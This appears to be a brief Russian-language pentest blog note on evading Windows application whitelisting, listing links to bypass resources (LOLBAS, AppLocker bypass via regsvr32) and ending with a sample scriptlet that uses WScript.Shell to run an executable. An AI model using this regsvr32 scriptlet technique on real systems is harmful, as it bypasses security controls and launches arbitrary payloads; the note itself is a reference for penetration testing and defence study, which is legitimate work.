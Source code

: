 ```yaml
---
layout: post
categories: articles
tags:
  - ru
  - windows
published: true
ru: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение
В принципе, вариантов у нас немного, либо ищем бинарники которые мы можем запускать и которые могут что-то запускать, либо ищем бинарники которые можно запускать и которым мы можем менять конфиги, как например пути к либам.

А еще есть ПроцесХайджекинг, но про него я много не знаю.

# Ссылки
[Запуск пейлоада с помощью .NET](https://github.com/khr0x40sh/WhiteListEvasion),

[Список всех интересных бинарников винды которые могут быть использованны против неё](https://lolbas-project.github.io/),

[Исходники штуки которая ищет недостатки в вайтлистинге на конкретной машине](https://github.com/cyberark/Evasor/),

[Обход вайтлиста с помощью regsvr32](https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/),

Пример кода для regsvr32
<code>
  
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & pentestlab.exe"); 
]]>
 
</script>
</registration>
</scriptlet>

</code>
